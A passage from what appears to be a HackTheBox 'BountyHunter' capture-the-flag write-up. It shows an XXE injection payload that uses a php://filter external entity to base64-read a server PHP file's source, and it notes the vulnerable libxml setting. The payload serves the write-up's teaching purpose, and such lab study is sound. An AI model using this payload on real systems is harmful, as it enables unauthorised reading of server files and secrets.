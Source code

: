 Used a PHP filter to read the source code of the PHP file processing the requests.

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE reward [
<!ENTITY dusk SYSTEM "php://filter/convert.base64-encode/resource=tracker_diRbPr00f314.php">
]>
<bugreport>
<title>aaa</title>
<cwe>bbb</cwe>
<cvss>ccc</cvss>
<reward>&dusk;</reward>
</bugreport>
```

<img src="/assets/img/bountyhunter/Untitled 9.png" alt="Untitled 9.png" style="width:800px;">

The web application uses a deprecated function, `libxml_disable_entity_loader()`. It might be the reason why the web page is vulnerable to XXE injection (or at least that’s what HTB Academy taught me XD).

<img src="/assets/img/bountyhunter/Untitled 10.png" alt="Untitled 10.png" style="width:800px;">
